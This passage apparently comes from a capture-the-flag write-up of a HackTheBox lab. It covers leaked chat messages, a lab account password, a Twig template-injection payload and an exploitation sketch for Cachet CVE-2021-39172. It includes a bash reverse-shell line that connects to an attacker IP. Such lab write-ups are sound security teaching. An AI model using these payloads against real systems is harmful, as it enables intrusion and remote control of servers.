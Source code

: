 ```json
	"room":"61b86b28d984e2451036eb17"},

	{"id":"61b86fb1fe190b466d476bf8",
	"text":"Can you create an account for me ? ",
	"posted":"2021-12-14T10:19:29.677Z",
	"owner":"61b86dbdfe190b466d476bf0",
	"room":"61b86b28d984e2451036eb17"},

	{"id":"61b86f4dfe190b466d476bf6",
	"text":"Hey Team! I'll be handling the `status.catch.htb` from now on. Lemme know if you need anything from me. ",
	"posted":"2021-12-14T10:17:49.761Z",
	"owner":"61b86f15fe190b466d476bf5",
	"room":"61b86b28d984e2451036eb17"}
	]
```
Based on these messages, we now have access to the john user on the cachet status page. We will also probably not be able to crack those passwords we retrieved earlier based on the one we can see in this thread. 

`john:E}V!mywu_69T4C}W`

We now have both the api key and password for the john user. Let's check out what we can do with cachet.

![The cachet dashboard](dashboard.png)

Under the incident template tab i found Cachet helpfully tells us that we can use the Twig templating language:

![The incident template tab](twigtemplate.png)

Based on PayloadAllTheThings, Twig template injections aiming to achieve code execution take the following form:
{% raw %}
`{{['id']|filter('system')}}`
{% endraw %}
We can then create a reverse shell payload: 
{% raw %}
`{{["bash -c 'sh -i >& /dev/tcp/10.10.17.182/1337 0>&1'"]|filter('system')}}`
{% endraw %}
Once we have created the template, we can report a incident via the incidents tab, however for some reason i could not get a reverse shell on the target system, even though the string {% raw %}`{{7*7}}`{% endraw %} evaluated to 49.
Instead i returned to the cachet vulnerabilities referred to earlier. Since I have an authenticated user, I can perform an exploit of CVE-2021-39172. Reading about the exploit, it apparently revolves around being able to access the .env file when changing the mail configuration. The .env file can then be altered in a way so as it points to some remote redis server, and when the system tries to communicate with this redis server, code is deserialized resulting in code execution. Another option is to read the documentation for Cachet <https://docs.cachethq.io/docs/installing-cachet>

Here we see what a normal environment will look like: 
```console
APP_ENV=production
APP_DEBUG=false
APP_URL=http://localhost
APP_KEY=SomeRandomString

DB_DRIVER=mysql
DB_HOST=localhost
DB_DATABASE=cachet
DB_USERNAME=homestead
DB_PASSWORD=secret
DB_PORT=null
---SNIP---
```